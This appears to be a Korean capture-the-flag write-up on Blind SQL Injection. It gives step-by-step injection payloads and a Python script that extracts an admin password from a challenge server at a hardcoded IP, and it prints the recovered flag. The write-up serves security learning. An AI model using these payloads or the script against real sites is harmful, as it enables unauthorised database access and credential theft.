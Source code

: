 # 240712 웹 구조

### 📌Check
- Blind SQL Injection 문제 풀기
- 파이썬 스크립트로 자동화하기

### 🔓Simple SQL write-up
Blind SQL Injection 문제

문제 코드는 ```simplesql.php``` 참고!

#### 문제 해석

id, pw값이 채워져 있고, id가 admin이면 사진과 같이 ```admin check!```를 반환한다

![image](https://github.com/user-attachments/assets/f86d807a-0984-4ef1-a08b-afd078b20ae8)
즉, 쿼리 값이 참이면 결과를 반환해주는 것 → 
__Blind SQL Injection__

#### Blind SQL Injection

SQL 취약점은 존재하지만 쿼리의 결과를 알 수 없을 대, 즉 참/거짓만 알 수 있을 때 사용하는 기법

ex. 로그인 기능헤서 SQLi 발생했지만 로그인 성공/실패 여부만 알 수 있음

#### 문제 풀기

1. 데이터베이스 길이 확인
   
   ```?id=admin&password=123' or length(database())>1 -- - ```
   
   위 코드에서 숫자를 하나씩 늘려보면 DB길이는 5라는 것을 알 수 있다.

2. 데이터베이스 이름 찾기
   
   ```?id=admin&password=123' or ascii(substr(database(),1,1))>97 -- - ```

   아스키코드를 참고해서 확인해보면 DB이름은 prob1이다.

3. users 테이블의 첫 번째 컬럼 길이 찾기
   
   ```?id=admin&password=123' or length((select column_name from information_schema.columns where table_name='users' limit 1,1))>1 -- - ```

   ```limit 0,1``` → 0번째 인덱스에서 1개의 값을 가져온다

   첫 번째 컬럼 이름의 값을 가져와서 length를 통해 비교한 결과, 컬럼 이름의 길이는 3

   이런 식으로 컬럼 3개를 다 조회하면 각각 3, 2, 8이다.



4. 컬럼 이름 찾기
   
   ```?id=admin&password=123' or ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1), 1, 1))=110 -- - ```

   substr의 두 번째 인자가 글자의 위치

   각 컬럼 명 *num / id / password* 인 것을 알 수 있다.

5. password 값의 길이 가져오기
   
   ```?id=admin&password=123' or length((select password from users where id='admin'))>1 -- - ```

   users 테이블의 password 컬럼에서 id값이 admin인 것을 찾아야 함.

   비밀번호의 길이는 15인 것을 알 수 있다.

6. password 값 가져오기
   
   password 길이가 15여서 파이썬 코드로 작성해보기로 했다.

    ``` python
    import requests

    def extract_password():
        password = ''
        # password의 각 문자의 ASCII 값을 확인합니다.
        for position in range(1, 16):  # 패스워드 길이를 1부터 15까지 가정
            for ascii_code in range(33, 128):  # 출력 가능한 아스키 코드 범위
                url = "http://13.209.81.224:6060/index.php?id=admin&password=123' or ascii(substr((select password from users where id='admin'),{0},1))={1} -- -".format(position, ascii_code)
                res = requests.get(url)
                if "admin check!" in res.text:
                    password += chr(ascii_code)
                    print("Position {0}: Character {1} with ASCII {2}".format(position, chr(ascii_code), ascii_code))
        print(password)

    # 메인 함수 실행
    extract_password()
    ```
    ![image](https://github.com/user-attachments/assets/f31292d2-8587-4d83-9f8d-2f66a538694f)
    패스워드는 cvfbhfynlrjoi33인 것을 알 수 있다.

#### 문제 해결

플래그 = flag{cvfbhfynlrjoi33}

### ✏️회고

파이썬 코드를 활용해서 푸니까 쉽고 간편했다.
처음부터 이렇게 할 걸..


### 🔗참고한 링크
[1](https://kangmyoungseok.github.io/webhacking/webhacking02/)
